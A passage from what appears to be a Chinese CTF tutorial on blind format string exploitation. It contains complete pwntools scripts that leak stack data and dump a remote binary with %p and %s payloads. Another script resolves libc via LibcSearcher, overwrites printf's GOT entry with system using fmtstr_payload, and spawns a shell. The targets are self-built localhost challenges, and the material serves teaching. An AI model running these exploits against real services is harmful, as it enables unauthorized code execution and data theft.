    payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'
    #print payload
    createcontact('3333', '123456789', '300', payload)
    printcontact()
    sh.recvuntil('Description: ')
    sh.recvuntil('Description: ')
    #gdb.attach(sh)
    print 'get shell'
    sh.recvuntil('>>> ')
    #get shell
    sh.sendline('5')
    sh.interactive()

需要注意的是，这样并不能稳定得到shell，因为我们一次性输入了太长的字符串。但是我们又没有办法在前面控制所想要输入的地址。只能这样了。

格式化字符串盲打
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

原理
----

所谓格式化字符串盲打指的是只给出可交互的ip地址与端口，不给出对应的binary文件来让我们进行pwn，其实这个和BROP差不多，不过BROP利用的是栈溢出，而这里我们利用的是格式化字符串漏洞。一般来说，我们按照如下步骤进行

-  确定程序的位数
-  确定漏洞位置
-  利用

由于没找到比赛后给源码的题目，所以自己简单构造了两道题。

例子1-泄露栈
------------

源码和部署文件均放在了对应的文件夹fmt\_blind\_stack中。

确定程序位数
~~~~~~~~~~~~

我们随便输入了%p，程序回显如下信息

.. code:: shell

    ➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
    %p
    0x7ffd4799beb0
    G�flag is on the stack%                          

告诉我们flag在栈上，同时知道了该程序是64位的，而且应该有格式化字符串漏洞。

利用
~~~~

那我们就一点一点测试看看

.. code:: python

    from pwn import *
    context.log_level = 'error'


    def leak(payload):
        sh = remote('127.0.0.1', 9999)
        sh.sendline(payload)
        data = sh.recvuntil('\n', drop=True)
        if data.startswith('0x'):
            print p64(int(data, 16))
        sh.close()


    i = 1
    while 1:
        payload = '%{}$p'.format(i)
        leak(payload)
        i += 1

最后在输出中简单看了看，得到flag

.. code:: shell

    ////////
    ////////
    \x00\x00\x00\x00\x00\x00\x00\xff
    flag{thi
    s_is_fla
    g}\x00\x00\x00\x00\x00\x00
    \x00\x00\x00\x00\xfe\x7f\x00\x00

例子2-盲打劫持got
-----------------

源码以及部署文件均已经在blind\_fmt\_got文件夹中。

确定程序位数
~~~~~~~~~~~~

通过简单地测试，我们发现这个程序是格式化字符串漏洞函数，并且程序为64位。

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    %p
    0x7fff3b9774c0

这次啥也没有回显，又试了试，发现也没啥情况，那我们就只好来泄露一波源程序了。

确定偏移
~~~~~~~~

在泄露程序之前，我们还是得确定一下格式化字符串的偏移，如下

.. code:: shell

    ➜  blind_fmt_got git:(master) ✗ nc localhost 9999
    aaaaaaaa%p%p%p%p%p%p%p%p%p
    aaaaaaaa0x7ffdbf920fb00x800x7f3fc9ccd2300x4006b00x7f3fc9fb0ab00x61616161616161610x70257025702570250x70257025702570250xa7025

据此，我们可以知道格式化字符串的起始地址偏移为6。

泄露binary
~~~~~~~~~~

由于程序是64位，所以我们从0x400000处开始泄露。一般来说有格式化字符串漏洞的盲打都是可以读入':raw-latex:`\x`00'字符的，，不然没法泄露怎么玩，，除此之后，输出必然是':raw-latex:`\x`00'截断的，这是因为格式化字符串漏洞利用的输出函数均是':raw-latex:`\x`00'截断的。。所以我们可以利用如下的泄露代码。

.. code:: python

    #coding=utf8
    from pwn import *

    #context.log_level = 'debug'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None

    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()
    getbinary()

需要注意的是，在payload中需要判断是否有':raw-latex:`\n`'出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

分析binary
~~~~~~~~~~

利用ida打开泄露的binary，改变程序基地址，然后简单看看，可以基本确定源程序main函数的地址

.. code:: assembly

    seg000:00000000004005F6                 push    rbp
    seg000:00000000004005F7                 mov     rbp, rsp
    seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
    seg000:00000000004005FE
    seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
    seg000:00000000004005FE                 lea     rax, [rbp-80h]
    seg000:0000000000400602                 mov     edx, 80h ; '€'
    seg000:0000000000400607                 mov     rsi, rax
    seg000:000000000040060A                 mov     edi, 0
    seg000:000000000040060F                 mov     eax, 0
    seg000:0000000000400614                 call    sub_4004C0
    seg000:0000000000400619                 lea     rax, [rbp-80h]
    seg000:000000000040061D                 mov     rdi, rax
    seg000:0000000000400620                 mov     eax, 0
    seg000:0000000000400625                 call    sub_4004B0
    seg000:000000000040062A                 mov     rax, cs:601048h
    seg000:0000000000400631                 mov     rdi, rax
    seg000:0000000000400634                 call    near ptr unk_4004E0
    seg000:0000000000400639                 jmp     short loc_4005FE

可以基本确定的是sub\_4004C0为read函数，因为读入函数一共有三个参数的话，基本就是read了。此外，下面调用的sub\_4004B0应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个while
1的循环，一直在执行。

利用思路
~~~~~~~~

分析完上面的之后，我们可以确定如下基本思路

-  泄露printf函数的地址，
-  获取对应libc以及system函数地址
-  修改printf地址为system函数地址
-  读入/bin/sh;以便于获取shell

利用程序
~~~~~~~~

程序如下。

.. code:: python

    #coding=utf8
    import math
    from pwn import *
    from LibcSearcher import LibcSearcher
    #context.log_level = 'debug'
    context.arch = 'amd64'
    ip = "127.0.0.1"
    port = 9999


    def leak(addr):
        # leak addr for three times
        num = 0
        while num < 3:
            try:
                print 'leak addr: ' + hex(addr)
                sh = remote(ip, port)
                payload = '%00008$s' + 'STARTEND' + p64(addr)
                # 说明有\n，出现新的一行
                if '\x0a' in payload:
                    return None
                sh.sendline(payload)
                data = sh.recvuntil('STARTEND', drop=True)
                sh.close()
                return data
            except Exception:
                num += 1
                continue
        return None


    def getbinary():
        addr = 0x400000
        f = open('binary', 'w')
        while addr < 0x401000:
            data = leak(addr)
            if data is None:
                f.write('\xff')
                addr += 1
            elif len(data) == 0:
                f.write('\x00')
                addr += 1
            else:
                f.write(data)
                addr += len(data)
        f.close()


    #getbinary()
    read_got = 0x601020
    printf_got = 0x601018
    sh = remote(ip, port)
    # let the read get resolved
    sh.sendline('a')
    sh.recv()
    # get printf addr
    payload = '%00008$s' + 'STARTEND' + p64(read_got)
    sh.sendline(payload)
    data = sh.recvuntil('STARTEND', drop=True).ljust(8, '\x00')
    sh.recv()
    read_addr = u64(data)

    # get system addr
    libc = LibcSearcher('read', read_addr)
    libc_base = read_addr - libc.dump('read')
    system_addr = libc_base + libc.dump('system')
    log.success('system addr: ' + hex(system_addr))
    log.success('read   addr: ' + hex(read_addr))
    # modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    # get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

    # get shell
    sh.sendline('/bin/sh;')
    sh.interactive()

这里需要注意的是这一段代码

.. code:: python

    # modify printf_got
    payload = fmtstr_payload(6, {printf_got: system_addr}, 0, write_size='short')
    # get all the addr
    addr = payload[:32]
    payload = '%32d' + payload[32:]
    offset = (int)(math.ceil(len(payload) / 8.0) + 1)
    for i in range(6, 10):
        old = '%{}$'.format(i)
        new = '%{}$'.format(offset + i)
        payload = payload.replace(old, new)
    remainer = len(payload) % 8
    payload += (8 - remainer) * 'a'
    payload += addr
    sh.sendline(payload)
    sh.recv()

fmtstr_payload直接得到的payload会将地址放在前面，而这个会导致printf的时候 \x00 截断（ **关于这一问题，pwntools目前正在开发fmt_payload的加强版，估计快开发出来了。** ）。所以我使用了一些技巧将它放在后面了。主要的思想是，将地址放在后面8字节对齐的地方，并对payload中的偏移进行修改。需要注意的是

.. code:: python

    offset = (int)(math.ceil(len(payload) / 8.0) + 1)

这一行给出了修改后的地址在格式化字符串中的偏移，之所以是这样在于无论如何修改，由于'%order$hn'中order多出来的字符都不会大于8。具体的可以自行推导。
